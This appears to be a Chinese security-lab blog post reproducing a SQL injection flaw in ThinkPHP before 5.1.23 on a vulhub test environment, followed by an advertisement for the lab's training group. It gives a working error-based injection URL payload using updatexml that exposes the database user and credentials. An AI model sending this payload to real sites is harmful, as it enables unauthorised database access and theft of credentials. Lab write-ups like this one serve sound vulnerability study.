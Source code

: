 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/1ZkiKqHogWOy0U4rQNnGtQ)

****文章来源｜MS08067 WEB 攻防知识星球****

> 本文作者：**叫我啊**（Ms08067 实验室追洞小组成员）

**漏洞复现分析  认准追洞小组  
**

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9Y7Ac6gb6JZVymJwS3gu8cniaUZzJeYAibE3v2VnNlhyC6fSTgtW94Pz51p0TSUl3AtZw0L1bDaAKw/640?wx_fmt=png)

**一、漏洞介绍**  

ThinkPHP 是一个开源的，快速、简单的面向对象的轻量级 PHP 开发框架

**二、影响版本**

```
ThinkPHP < 5.1.23
```

**三、漏洞复现**

采用 vulhub 快速搭建

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9umzdgZcprakicmwHb7pfRV9ibH8hfP1PId6PHSm6wRqg1MPgffGjDF251qBfl2mCUaOrk7JPoOUow/640?wx_fmt=png)

启动后，访问 http://your-ip/index.php?ids[]=1&ids[]=2 ，即可看到用户名被显示了出来，说明环境运行成功。

http://192.168.47.130/index.php?ids[]=1&ids[0,updatexml(0,concat(0x7e,user()),0)]=2

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9umzdgZcprakicmwHb7pfRVwSpm7NQ5S8k49L7aArpf9iaibXuiatSTVm4XTFBAvJ0dV1WicqibgDqb6aQ/640?wx_fmt=png)

可以之间看到存在敏感信息泄露

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9umzdgZcprakicmwHb7pfRVmBqo16mZA0DEEFfPvv0bYosAkTurQ7BG5AsiapIxL9pbW5jWPTm3I9g/640?wx_fmt=png)

可以发现数据库的账号、密码：为 root 、root

**四、漏洞分析**

该漏洞需要开发者使用了 GIS 中聚合查询的功能，用户在 oracle 的数据库且可控 tolerance 查询时的键名，在其位置注入 SQL 语句。

https://blog.csdn.net/qq_41832837/article/details/104066647

**【追洞计划】****顾名思义即追最新的漏洞，包括** **2020&2021 所有 Apache 漏洞 + 主流框架****，将会在星球内部招收感兴趣学员，纳入追洞小组。**

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicBSVWEh3E9RUYC1s7ibxjdxL3M2oibOs9FWy7sG0niaz9UunJe6XU5dh0vVa3CObU9YsiaFDNk7IViaWQ/640?wx_fmt=png)

**主讲导师介绍：**

**Taoing**：Ms08067 安全实验室核心成员，现任安恒信息高级安全工程师，擅长 web 渗透测试，应急响应。

**TtssGkf：**Ms08067 实验室核心成员，Defcon86021 议题分享者，擅长领域：渗透测试，漏洞分析，代码审计，安全开发。

**扫描下方二维码加入星球学习**

**加入后会邀请你进入内部微信群，内部微信群永久有效！**

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9Y7Ac6gb6JZVymJwS3gu8cniaUZzJeYAibE3v2VnNlhyC6fSTgtW94Pz51p0TSUl3AtZw0L1bDaAKw/640?wx_fmt=png) ![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9Y7Ac6gb6JZVymJwS3gu8cT2rJYbRzsO9Q3J9rSltBVzts0O7USfFR8iaFOBwKdibX3hZiadoLRJIibA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicBVC2S4ujJibsVHZ8Us607qBMpNj25fCmz9hP5T1yA6cjibXXCOibibSwQmeIebKa74v6MXUgNNuia7Uw/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9Y7Ac6gb6JZVymJwS3gu8cRey7icGjpsvppvqqhcYo6RXAqJcUwZy3EfeNOkMRS37m0r44MWYIYmg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicjovru6mibAFRpVqK7ApHAwiaEGVqXtvB1YQahibp6eTIiaiap2SZPer1QXsKbNUNbnRbiaR4djJibmXAfQ/640?wx_fmt=jpeg) ![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicJ39cBtzvcja8GibNMw6y6Amq7es7u8A8UcVds7Mpib8Tzu753K7IZ1WdZ66fDianO2evbG0lEAlJkg/640?wx_fmt=png)  

**目前 36000 + 人已关注加入我们  
**![](https://mmbiz.qpic.cn/mmbiz_gif/XWPpvP3nWa9FwrfJTzPRIyROZ2xwWyk6xuUY59uvYPCLokCc6iarKrkOWlEibeRI9DpFmlyNqA2OEuQhyaeYXzrw/640?wx_fmt=gif)